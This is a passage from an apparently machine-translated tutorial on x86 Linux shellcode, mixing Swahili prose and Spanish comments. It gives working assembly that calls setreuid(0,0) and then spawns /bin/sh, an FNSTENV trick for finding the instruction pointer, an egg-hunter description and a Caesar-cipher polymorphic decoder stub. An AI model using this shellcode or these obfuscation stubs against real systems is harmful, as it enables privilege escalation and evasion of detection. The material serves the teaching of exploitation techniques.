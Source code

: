 ```
section .text
global _start
_start:
xor                  eax, eax                     ;Limpieza
mov                al, 0x46                      ; Syscall 70
xor                  ebx, ebx                     ; arg1 = 0
xor                  ecx, ecx                     ; arg2 = 0
int                    0x80                           ; setreuid(0,0)
xor                  eax, eax                     ; eax = 0
push   eax                             ; “\0”
push               dword 0x68732f2f ; “//sh”
push               dword 0x6e69622f; “/bin”
mov                ebx, esp                     ; arg1 = “/bin//sh\0”
push               eax                             ; Null -> args[1]
push               ebx                             ; “/bin/sh\0” -> args[0]
mov                ecx, esp                     ; arg2 = args[]
mov                al, 0x0b                      ; Syscall 11
int                    0x80                           ; excve(“/bin/sh”, args[“/bin/sh”, “NULL”], NULL)
```
**EJ FNSTENV:**
```
fabs
fnstenv [esp-0x0c]
pop eax                     ; Guarda el EIP en el que se ejecutó fabs
…
```
**Mwindaji wa Yai:**

Inajumuisha nambari ndogo inayopitia kurasa za kumbukumbu zinazohusiana na mchakato kutafuta shellcode iliyohifadhiwa hapo (inatafuta saini fulani iliyojumuishwa kwenye shellcode). Inatumika katika hali ambapo kuna nafasi ndogo tu ya kuingiza nambari.

**Shellcodes za Polimofiki**

Hizi ni shell zilizofichwa ambazo zina nambari ndogo za kuzifichua na kuziruka, zikitumia mbinu ya Call-Pop hii itakuwa **mfano wa kificho kilichofichwa kwa Cesar**:
```
global _start
_start:
jmp short magic
init:
pop     esi
xor      ecx, ecx
mov    cl,0                              ; Hay que sustituir el 0 por la longitud del shellcode (es lo que recorrerá)
desc:
sub     byte[esi + ecx -1], 0 ; Hay que sustituir el 0 por la cantidad de bytes a restar (cifrado cesar)
sub     cl, 1
jnz       desc
jmp     short sc
magic:
call init
sc:
;Aquí va el shellcode
```
## **5. Mbinu Zingine**
